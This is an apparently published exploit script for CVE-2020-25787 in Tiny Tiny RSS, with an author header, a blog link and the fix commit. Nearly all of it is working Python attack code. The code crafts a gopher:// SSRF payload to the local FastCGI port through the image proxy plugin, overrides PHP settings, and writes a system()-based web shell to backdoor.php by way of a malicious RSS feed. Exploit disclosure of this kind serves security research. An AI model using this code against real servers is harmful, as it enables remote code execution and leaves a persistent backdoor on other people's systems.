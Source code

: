 EXP
---

    # Exploit Title: Tiny Tiny RSS - Remote Code Execution
    # Date: 21/09/2020
    # Exploit Author: Daniel Neagaru & Benjamin Nadarević
    # Blog post: https://www.digeex.de/blog/tinytinyrss/
    # Software Link: https://git.tt-rss.org/fox/tt-rss
    # Version: all before 2020-09-16
    # Commit with the fixes: https://git.tt-rss.org/fox/tt-rss/commit/c3d14e1fa54c7dade7b1b7955575e2991396d7ef
    # Tested on: default docker installation method
    # CVE : CVE-2020-25787

    #!/usr/bin/env python3

    from sys import argv
    import urllib.parse as ul
    import base64


    def CustomFcgi( filename, output, backdoor):
        length=len(output)+len(backdoor)+64
        char=chr(length)

        data = "\x0f\x10SERVER_SOFTWAREgo / fcgiclient \x0b\tREMOTE_ADDR127.0.0.1\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0e" + chr(len(str(length)))
        data += "CONTENT_LENGTH" + str(length) +  "\x0e\x04REQUEST_METHODPOST\tKPHP_VALUEallow_url_include = On\n"
        data += "disable_functions = \nauto_prepend_file = php://input\x0f" + chr(len(filename)) +"SCRIPT_FILENAME" + filename + "\r\x01DOCUMENT_ROOT/"

        temp1 = chr(len(data) // 256)
        temp2 = chr(len(data) % 256)
        temp3 = chr(len(data) % 8)

        end = str("\x00"*(len(data)%8)) + "\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00" + char + "\x04\x00"
        end += "<?php file_put_contents('" + output + "',base64_decode("+ "'"+str(backdoor.decode('ascii'))+"')"+");die('executed');?>\x00\x00\x00\x00"
        start = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01" + temp1 + temp2 + temp3 + "\x00"

        payload = start + data + end
        def get_payload(payload):
            finalpayload = ul.quote_plus(payload, encoding="latin-1").replace("+","%20").replace("%2F","/")
            return finalpayload

        return "gopher://localhost:9000/_"+get_payload(get_payload(payload))



    TTRSS_PATH = "/var/www/html/tt-rss/"
    BACKDOOR_CODE = """
    <?php
    echo "success\n";
    echo system($_GET['cmd']);
    ?>
    """


    feed_file = open("malicious_RCE_feed.xml",'w')
    filename = TTRSS_PATH + "config.php"
    output = TTRSS_PATH + "backdoor.php"

    backdoor_code = base64.b64encode(BACKDOOR_CODE.encode("ascii"))
    rce = "public.php?op=pluginhandler&plugin=af_proxy_http&pmethod=imgproxy&url=" + CustomFcgi(filename, output, backdoor_code) + "&text"

    feed ="""<?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0">

    <channel>
      <title>Exploit demo - rce</title>
      <link></link>
      <description>You are getting infected :(</description>
      <item>
        <title> Check if there is backdoor.php</title>
        <link><![CDATA[backdoor.php?cmd=id&bypass_filter=://]]></link>
        <description>
        <![CDATA[
            Dummy text

            <img src="{}">

        ]]>
    </description>
      </item>
    </channel>
    </rss>
    """.format(rce)

    feed_file.write(feed)
    feed_file.close()